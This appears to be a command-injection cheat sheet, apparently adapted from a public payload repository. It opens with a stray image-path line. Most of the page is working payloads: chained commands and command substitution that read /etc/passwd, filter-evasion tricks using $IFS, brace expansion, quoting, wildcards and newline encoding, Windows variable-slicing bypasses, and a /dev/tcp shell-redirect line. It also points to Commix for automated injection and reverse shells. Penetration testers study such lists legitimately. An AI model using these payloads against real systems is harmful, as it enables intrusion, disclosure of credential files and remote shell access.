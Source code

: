 # Command injection

Scenario
- Web page, script, binary with text field for an IP adresse: system ("ping ".$IP)
- Exploit Input : arg, var, filename; need to encode
- Exploit PATH
- exploit library path

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command Injection

Exemples
https://www.owasp.org/index.php/Command_Injection



# Exploits


## Chaining commands Ux
````
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
````

## Inside a command
````
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
original_cmd_by_server {cat,/etc/passwd}
````

# Filter Bypasses
## Bypass without space

Works on Linux only.
````
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab▸ ~ ▸ $ sh</dev/tcp/127.0.0.1/4242
````

Commands execution without spaces, $ or { } - Linux (Bash only)
````
IFS=,;`cat<<<uname,-a`
````

Works on Windows only.
````
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
````

## Bypass with a line return

something%0Acat%20/etc/passwd

## Bypass Blacklisted words
Bypass with single quote
````
w'h'o'am'i
````

Bypass with double quote
````
w"h"o"am"i
````

Bypass with backslash and slash
````
w\ho\am\i
/\b\i\n/////s\h
````

Bypass with $@
````
who$@ami

echo $0
-> /usr/bin/zsh
echo whoami|$0
````

Bypass with variable expansion
````
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
````

Bypass with wildcards
````
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
````
Bypass with null
````
who``ami
````


# Commix

Automate command injection & reverse shell
https://github.com/commixproject/commix

